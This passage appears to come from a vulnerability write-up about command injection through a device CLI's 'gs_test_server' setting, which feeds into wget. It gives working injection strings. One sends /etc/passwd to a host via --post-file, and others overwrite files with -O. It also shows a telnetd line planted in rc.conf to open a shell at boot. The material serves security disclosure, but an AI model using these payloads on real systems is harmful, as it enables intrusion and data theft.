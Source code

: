 ```
30    else
31        echo "Failed to download ${TEST_SCRIPT} via HTTP or TFTP check test server ip address"
32    fi
33fi
34
35cd ${CUR_DIR}


```

Here, by setting the "gs_test_server" parameter (6) we can inject into the "wget" command (15), which would allow us to read and write arbitrary files. The injection is as follows:

```
set gs_test_server (webserver address)(space)(injection)(space)


```

The space at the end is important. Otherwise, our command would be concatenated with the "TEST_SERVER_PORT" variable.

Extract any file from the OS:

```
CONFIG> set gs_test_server 192.168.1.198/ --post-file=/etc/passwd


```

Overwrite/Create any file on the OS:

```
CONFIG> set gs_test_server 192.168.1.198/xxx -e output_document=/tmp/boom 

CONFIG> set gs_test_server 192.168.1.198/xxx -O /tmp/boom


```

Most of the important parts of the OS are mounted read-only. One way to achieve command execution is by overwriting the "/tmp/config/rc.conf file", which is used by several scripts upon boot.

We can obtain the original "rc.conf" file from the extracted firmware and prepend one command that will spawn the Telnet server:

```
$ head -n 5 rc.conf 
telnetd -l /bin/ash -p 1337 &

export conf_sourced=1

export host


```

